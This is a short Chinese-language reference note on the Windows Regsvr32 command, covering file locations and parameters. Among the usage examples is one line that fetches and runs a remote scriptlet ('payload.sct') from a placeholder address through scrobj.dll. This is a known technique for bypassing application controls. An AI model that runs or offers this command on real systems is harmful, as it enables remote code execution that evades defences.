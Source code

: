 # 应用

---

# Regsvr32

Regsvr32 命令用于注册 COM 组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP 及以上系统的 regsvr32.exe 在 windows\system32 文件夹下；2000 系统的 regsvr32.exe 在 winnt\system32 文件夹下。

注意在 Windows 操作系统的 64 位版本上，有两个版本的 Regsv32.exe 文件：
- 64位版本为 ％systemroot％\System32\regsvr32.exe。
- 32位版本是 ％systemroot％\SysWoW64\regsvr32.exe。

下面是常用参数
```bash
regsvr32 xxx.dll
regsvr32 /u /n /s /i:http://192.168.1.1:80/payload.sct scrobj.dll

# /u 取消注册
# /s 指定 regsvr32 安静运行，在成功注册 / 反注册 DLL 文件的前提下不显示结果提示框。
# /n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。
# /i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。
```

更多内容参考:
- https://support.microsoft.com/en-us/help/249873/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages
